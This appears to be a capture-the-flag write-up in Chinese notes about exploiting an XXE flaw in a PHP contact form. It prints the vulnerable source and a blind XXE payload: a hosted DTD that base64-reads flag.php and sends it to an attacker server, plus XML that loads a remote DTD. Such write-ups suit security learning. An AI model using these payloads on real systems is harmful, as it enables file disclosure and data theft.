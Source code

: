 ![[Pasted image 20230205110445.png|500]]

![[Pasted image 20230205110501.png|500]]

![[Pasted image 20230205110522.png|300]]

提示可以下载源码

![[Pasted image 20230205110551.png|200]]

`send.php`

```php
<?php 
    
libxml_disable_entity_loader(false);

if ($_SERVER["REQUEST_METHOD"] == "POST"){
    $xmldata = file_get_contents("php://input");
    if (isset($xmldata)){
        $dom = new DOMDocument();
        try {
            $dom->loadXML($xmldata, LIBXML_NOENT | LIBXML_DTDLOAD);
        }catch(Exception $e){
            $result = "loading xml data error";
            echo $result;
            return;
        }
        $data = simplexml_import_dom($dom);

        if (!isset($data->name) || !isset($data->email) || !isset($data->content)){
            $result = "name,email,content cannot be empty";
            echo $result;
            return;
        }

        if ($data->name && $data->email && $data->content){
            $result = "Success! I will see it later";
            echo $result;
            return;
        }else {
            $result = "Parse xml data error";
            echo $result;
            return;
        }
    }
}else {
    die("Request Method Not Allowed");
}

?>
```

`flag.php`

```php
<?php 
    $flag1 = "hgame{xxxx}";
?>
```

明示`XXE`盲注

在vps上部署`DTD`文件

```dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=flag.php">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://xxx.xxx.xxx.xxx:2333?p=%file;'>">
```

![[Pasted image 20230205111620.png|700]]

payload如下

```xml
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "https://cloud.cracktc.top/d/local/test.dtd?sign=xxx">
%remote;%int;%send;
]>
```

![[Pasted image 20230205112753.png|700]]

![[Pasted image 20230205112853.png|700]]

#Web #PHP #源码泄漏 #XXE #盲注 #DTD #伪协议 